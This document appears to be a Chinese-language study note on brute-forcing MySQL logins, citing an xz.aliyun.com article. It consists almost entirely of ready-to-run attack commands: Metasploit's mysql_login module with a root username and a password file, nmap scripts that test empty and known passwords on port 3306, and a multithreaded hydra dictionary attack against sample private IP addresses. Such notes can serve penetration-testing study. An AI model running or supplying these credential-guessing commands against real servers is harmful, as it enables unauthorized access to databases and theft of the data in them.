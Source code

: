 # MYSQL爆破

> ​ 学习地址：
>
> * [https://xz.aliyun.com/t/1652](https://xz.aliyun.com/t/1652)

## MYSQL 爆破

### 使用 metasploit

启动 metasploit：

```
$ msfconsole
```

使用 `auxiliary/scanner/mysql/mysql_login` 模块进行：

可以单一扫描验证登录验证：

```
use auxiliary/scanner/mysql/mysql_login
set rhosts <ip-address>
set username root
set password 11111111
run
```

使用某个字典进行爆破：

```
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip-address>
set pass_file “/root/top10000pwd.txt”
set username root
run
```

### nmap 扫描

可以查看所有与 `mysql` 相关的脚本：

```
$ ls -al /usr/share/nmap/scripts/mysql*
```

先查看是否开启了端口

```
$ nmap <ip-address>
```

扫描空口令：

```
$ nmap -p3306 --script=mysql-empty-password.nse 192.168.137.130
```

扫描已知口令：

```
$ nmap -sV --script=mysql-databases --script-args dbuser=root,dbpass=11111111 192.168.195.130
```

### xHydra 和 Hydras

使用字典进行爆破：

```
$ hydra -l root -P /root/Desktop/top10000pwd.txt -t 16 192.168.157.130 mysql
```
